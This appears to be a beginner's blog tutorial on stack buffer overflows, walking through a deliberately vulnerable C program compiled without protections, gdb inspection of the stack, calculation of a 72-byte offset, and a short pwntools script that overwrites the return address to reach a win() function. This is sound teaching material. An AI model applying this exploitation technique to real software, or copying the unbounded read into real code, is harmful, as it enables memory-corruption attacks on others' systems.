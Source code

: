 +++
date = '2025-10-24T14:11:56+05:30'
draft = false
title = 'Buffer Overflows'
+++

# The stack


The stack is a region of memory in the program that keeps track of some important data, each function that is called creates a **stack frame** that contains:

- local variables 
- the saved base pointer (RBP)
- the saved return address pointer (RIP)

The stack is used to abstract away control flow which is similar to a `jmp` instruction, however unlike a jump instruction when a function is called it needs to know where to return. 


This is why the RBP and the RIP are pushed onto the stack.


Once the function is done, the program looks at the saved RIP on the stack and jumps back to the function that originally called it. (The RBP is used to restore the stack back to its original state, kinda)

![stack frame](images/function_frame.png)
[source](https://eli.thegreenplace.net/2011/09/06/stack-frame-layout-on-x86-64)

The stack grows downwards in memory towards lower address, in the above diagram the **green part represents the main function** and the **blue part represents the function that was called by main**. Notice that the return address resides on the stack along with the variables passed to the function.

Now consider the following scenario:

```
void vuln(){
  char buf[64];
  read(0,buf,128);
}
```

This function tries to read 128 bytes into a 64 byte buffer, C does not have any kinds of check for buffer sizes and this is perfectly valid C code for the compiler. 

In this scenario, the stack allocates 64 bytes for the buffer, but wait the buffer is being written with 128 bytes!
This is a classic buffer overflow that allows you to control the RIP of the program.

# A look at the assembly

We will compile the following C code and look at its disassembly in gdb.

```
#include <stdio.h>
#include <unistd.h>

void win(){
  puts("How did you get here? you win!");
}

void vuln(){
  char buf[64];
  read(0,buf,128);
}

int main(){
  vuln();
}
```

Compile with the following flags in gcc:
```
gcc vuln.c -o vuln -fno-stack-protector -no-pie -z execstack
```

- `-fno-stack-protector` disables the stack canary, which is a mitigation designed to make classic buffer overflows harder, we wont have to worry about that for now.
- `-no-pie`(Position Independant Executable) makes the program load into random memory addresses on each run, we will disable that
- `-z execstack` makes the stack executable, which means that code written to the stack(this could be user input) will be executed.

I have disabled almost every modern protection, but we will eventually learn how to bypass them.

# GDB time
Pro tip:
add this to your `.gdbinit` file in your home directory to save your eyes from looking at horrible AT&T syntax.
```
set disassembly-flavor intel
```


To load the file in gdb 
```
gdb <filename>
```


Once you're in gdb, you can use the `disassemble`(or `disass` for short) to disassemble a function and look at its assembly code.

```
gef➤  disass vuln
Dump of assembler code for function vuln:
   0x000000000040114c <+0>:     push   rbp
   0x000000000040114d <+1>:     mov    rbp,rsp
   0x0000000000401150 <+4>:     sub    rsp,0x40
   0x0000000000401154 <+8>:     lea    rax,[rbp-0x40]
   0x0000000000401158 <+12>:    mov    edx,0x80
   0x000000000040115d <+17>:    mov    rsi,rax
   0x0000000000401160 <+20>:    mov    edi,0x0
   0x0000000000401165 <+25>:    call   0x401040 <read@plt>
   0x000000000040116a <+30>:    nop
   0x000000000040116b <+31>:    leave
   0x000000000040116c <+32>:    ret
End of assembler dump.
```

Let's walk through each instruction, starting with the function prologue and epilogue.

Prologue (setting up the stack)

- `push rbp` - pushes the current base pointer onto the stack
- `mov rbp,rsp` - moves the stack pointer into the base pointer
- `sub rsp,0x40` - make 0x40 bytes of space on the stack for local variables(in this case our buffer)

Epilogue

- `leave` - equivalent to `mov rsp,rbp; pop rbp` , This is the exact opposite of what was done in the prologue.
- `ret` - jump to the address at the top of the stack(which will be our main address that was pushed when it called vuln)



Lets first stop the program once it reaches `read`, give it some input and see the stack in gdb.

```
gef➤  break *vuln+25
Breakpoint 1 at 0x401165
```

This will stop the program at the call to read. To run the program, `run` or `r`

```
gef➤  r
Starting program: /tmp/vuln
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/usr/lib/libthread_db.so.1".

Breakpoint 1, 0x0000000000401165 in vuln ()
```

The breakpoint was triggered. Now lets go one instruction after this with `next instruction` or `ni` for short.

The program seems to hang, that's because its waiting for input,type something like `aaaaaaa`

```
gef➤  ni
aaaaaaaa0x000000000040116a in vuln ()
```

Now to examine the stack:
```
x/20gx $rsp
```

This roughly translates to examine 20 (x/20) giant words (gx, 8 bytes) at rsp.

```
gef➤  x/20gx $rsp
0x7fffffffe5a0: 0x6161616161616161      0x0000000000000000
0x7fffffffe5b0: 0x0000000000000000      0x0000000000000000
0x7fffffffe5c0: 0x0000000000000000      0x0000000000000000
0x7fffffffe5d0: 0x0000000000000000      0x0000000000000000
0x7fffffffe5e0: 0x00007fffffffe5f0      0x0000000000401176
0x7fffffffe5f0: 0x00007fffffffe690      0x00007ffff7c27675
0x7fffffffe600: 0x00007ffff7fc2000      0x00007fffffffe718
0x7fffffffe610: 0x00000001ffffe650      0x000000000040116d
0x7fffffffe620: 0x0000000000000000      0x49393e1f467b5edd
0x7fffffffe630: 0x00007fffffffe718      0x0000000000000001
```

`x6161616161616161` is our input in hex!

Note that the stack is always at a high address, typically `0x7fffff...`. We can also see some stack addresses in the stack. The only address closest that is not a stack address is `401176`.

Examining that address as an instruction:

```
gef➤  x/i 0x0000000000401176
   0x401176 <main+9>:   mov    eax,0x0
```

This is the instruction that is right after the call to vuln, in other words... our return address. The address right before that(0x00007fffffffe5f0) is the saved RBP.

Notice that the stack frame cannot possibly hold 128 bytes of data and that we can overwrite the return address.

Our input starts at `0x7fffffffe5a0` and our saved return address is at `0x7fffffffe5e8`. With some simple maths (I hope), we can deduce that we can overwrite the return address after sending 72 bytes of data.

```
>>> 0x7fffffffe5e8 - 0x7fffffffe5a0
72
```

So we need to send 72 bytes of random data, of course we send "A"*72 and then... Wait what do we send after that? Now that we have control over the instruction pointer, we can make it point to the win function. 

We can get its address by:
```
gef➤  info functions win
All functions matching regular expression "win":

Non-debugging symbols:
0x0000000000401136  win
```

This only works because we disabled PIE earlier.

So our final payload would be 
```
'A'*72 + 0x401136
```

But how do we send the address, we can't exactly type it out...

I would recommend using pwntools but there are other ways to do it:

```
from pwn import *

p = process("./vuln")
payload = b"A"*72 + p64(0x401136)
p.send(payload)
p.interactive()
```

The final result:
```
> python3 exploit.py
[+] Starting local process './vuln': pid 16480
[*] Switching to interactive mode
How did you get here? you win!
[*] Got EOF while reading in interactive
```
